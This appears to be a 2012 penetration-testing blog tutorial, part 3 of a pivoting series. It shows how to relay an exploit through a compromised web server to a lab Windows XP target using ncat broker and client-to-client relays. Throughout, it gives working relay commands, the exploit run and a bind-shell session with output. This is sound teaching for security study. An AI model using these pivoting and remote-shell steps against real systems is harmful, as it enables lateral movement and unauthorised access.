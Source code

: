 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 3: Ncat"
date: 2012-10-16 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-3-ncat.html
---
```


In the past two articles, we pivoted our exploit to our target with the help of SSH. If SSH is not available, we can try to use client-to-client and listener-to-listener relays with netcat, as described by Ed Skoudis in [Secrets of America's Top Pen Testers](http://www.inguardians.com/research/docs/Skoudis_pentestsecrets.pdf). We will modify Skoudis' technique by using ncat instead of netcat. Ncat is meant to be a replacement for netcat, and is included in the Nmap 5.x and higher package. I prefer ncat over netcat for this as it allows us to use the same syntax to set up the relays regardless of whether the pivot is running Linux, Windows, or Mac OS X.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

->![](/images/2012-10-16/01.jpg)<-

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

We need to run ncat on our attacking machine, and on the web server. This means that we need to transfer ncat over to the web server. If your pivot is a Linux machine, you can build a static ncat binary using the following: 

```
# LDFLAGS="-static" ./configure && make ncat_build
```

If the pivot is a Windows machine, you can download a static build of ncat.exe from [http://seclists.org/nmap-dev/2011/q2/1090](http://seclists.org/nmap-dev/2011/q2/1090). Once ncat has been copied over to the pivot, we can begin.

On our attacking machine, we setup a listener-to-listener relay using the following command: 

```
# ncat -lv --broker -m2 10000
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```

At this point, we'll have port 10000 listening on our machine. On the web server we execute the following command: 

```
$ ncat -v 192.168.81.125 10000 -c "ncat -v 192.168.63.142 10000"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:10000.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:10000.
```

This tells ncat to connect to our ncat instance listening on port 10000, and then to connect to port 10000 on the target. This completes the setup, and data from our machine will flow through the web server and to the target.

Note that the syntax for executing the client-to-client relay on the pivot is the same, regardless of whether it's a Linux, Windows, or OS X machine. There's nothing else that needs to be done, such as creating a pipe. Compare it to the technique that uses traditional netcat to see the difference.

We can now execute our exploit. Keep in mind that we need to send it to port 10000 on our machine: 

```
# ./exploit.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done
#
```

With the exploit sent, we can now terminate the ncat relays. Assuming the exploit worked, a bind shell should be listening on 4444 on the target. In order to access it, we once again setup ncat relays, only this time we'll specify port 4444. On our machine we run the following command: 

```
# ncat -lv --broker -m2 4444
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On the web server, we setup the client-to-client relay: 

```
$ ncat -v 192.168.81.125 4444 -c "ncat -v 192.168.63.142 4444"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:4444.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
```

Using netcat (or ncat), we can connect to port 4444 on our machine to get a remote shell on the target: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
 
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've obtained remote shell access to the Windows XP target once more.

Ncat is a great tool and builds enhancements into the old netcat. It's small, available for major operating systems, and easy to use. In part 4 of this serieis, we'll look at Metasploit's pivoting feature. If Metasploit is your exploitation framework of choice, you'll want to learn to use it to pivot your attacks.

